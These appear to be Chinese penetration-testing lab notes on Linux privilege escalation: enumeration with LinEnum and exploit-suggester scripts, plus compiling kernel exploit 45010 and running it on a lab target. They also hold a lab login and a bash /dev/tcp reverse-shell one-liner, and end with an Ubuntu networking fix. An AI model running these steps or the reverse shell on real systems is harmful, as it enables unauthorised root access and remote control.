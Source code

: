 ~~~shell
	ls /boot | grep vmlinuz
# 使用脚本工具
一、信息收集
	1、下载软件：get http://172.157.20.109:8080/LinEnum.sh
	2、修改权限：chmod +x LinEnum.sh
	3、运行：./LinEnum.sh | more 
链接：https://github.com/rebootuser/LinEnum
二、提权
	1、找到漏洞文件并下载：linux_1.sh
	2、下载
链接：
https://github.com/mzet-/linux-exploit-suggester
https://github.com/jondonas/linux-exploit-suggester-2
~~~

### 2、本地内核提权

~~~shell
# 本地内核提权
一、Bizzar靶场
1、找靶场
	1）找同网段：arp-scan -l | grep P
	2）ssh bucciarati@
	3）进入看权限：id--> uname -d（看内核版本的漏洞）
2、在自己的kali里面寻找内核版本的漏洞
	1）kali自带：searchsploit 
	2）查内核：searchsploit Linux 4.10.0-19（找到45010）
	3）searchsploit -x linux/local/45010.c
	4）URL:https://www.exploit-db.com/exploits/45010(可以搜索)
	   Path：/usr/share/exploitdb/exploits/linux/local/45010.c
	5）gcc：gcc 45010.c -o 45010
3、找到漏洞下载到靶机里面并运行
	wget http://IP/45010.c  -O /temp
	./45010
###练习
练习：http://172.168.20.177/
    登陆后台：nick/bulldog
    再反弹shell: echo "bash -i >& /dev/tcp/127.0.0.1/8080 0>&1" | bash
    提权
https://github.com/AdminTest0/SharpWxDump
### 全部漏洞练习的靶场：
portswigger.net/web-security/all-labs
~~~

ubuntu没有网卡解决方案：

~~~shell
1、首先确保网卡设备名称能看到，看不到，以下步骤无意义
sudo lshw -c network
2、命令行执行以下命令
sudo service NetworkManager stop
sudo rm  /var/lib/NetworkManager/NetworkManager.state
sudo gedit /etc/NetworkManager/NetworkManager.conf 
这一步将打开一个文件，把里面的managed=false改为managed=true 再保存。
sudo service NetworkManager start或者reboot
3、若成功则右上角已经能看到本地网络标志；
~~~
